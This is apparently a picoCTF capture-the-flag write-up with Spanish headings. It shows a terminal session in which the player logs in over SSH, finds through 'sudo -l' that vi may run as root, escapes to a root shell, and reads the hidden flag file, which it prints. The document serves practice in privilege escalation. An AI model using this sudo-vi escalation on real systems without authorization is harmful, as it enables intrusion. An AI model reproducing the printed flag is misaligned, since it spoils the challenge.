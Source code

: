 ## Objetivo
Can you read files in the root file?

Additional details will be available after launching your challenge instance.


## Solucion
ssh -p 60386 picoplayer@saturn.picoctf.net

The authenticity of host '[saturn.picoctf.net]:60386 ([13.59.203.175]:60386)' can't be established.

ED25519 key fingerprint is SHA256:HKm/Bw1C+mhj23vO8tXULrgLFYvzP6gQH2IwgUiQTok.

This key is not known by any other names

Are you sure you want to continue connecting (yes/no/[fingerprint])? yes

Warning: Permanently added '[saturn.picoctf.net]:60386' (ED25519) to the list of known hosts.

picoplayer@saturn.picoctf.net's password: 

Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

  

 * Documentation:  https://help.ubuntu.com

 * Management:     https://landscape.canonical.com

 * Support:        https://ubuntu.com/advantage

  

This system has been minimized by removing packages and content that are

not required on a system that users do not log into.

  

To restore this content, you can run the 'unminimize' command.

  

The programs included with the Ubuntu system are free software;

the exact distribution terms for each program are described in the

individual files in /usr/share/doc/*/copyright.

  

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by

applicable law.

  

**picoplayer@challenge**:**~**$ sudo -l

[sudo] password for picoplayer: 

Matching Defaults entries for picoplayer on challenge:

    env_reset, mail_badpass,

    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  

User picoplayer may run the following commands on challenge:

    (ALL) /usr/bin/vi

**picoplayer@challenge**:**~**$ sudo vi test

  

root@challenge:/home/picoplayer# whoami

root

root@challenge:/home/picoplayer# cd /root

root@challenge:~# ls -la

total 12

drwx------ 1 root root   23 Aug  4  2023 **.**

drwxr-xr-x 1 root root   51 Sep 17 17:32 **..**

-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc

-rw-r--r-- 1 root root   35 Aug  4  2023 .flag.txt

-rw-r--r-- 1 root root  161 Dec  5  2019 .profile

root@challenge:~# cat ./.flag.txt

picoCTF{uS1ng_v1m_3dit0r_1cee9dcb}

root@challenge:~# Connection to saturn.picoctf.net closed by remote host.

Connection to saturn.picoctf.net closed.
## Notas adicionales

## Referencias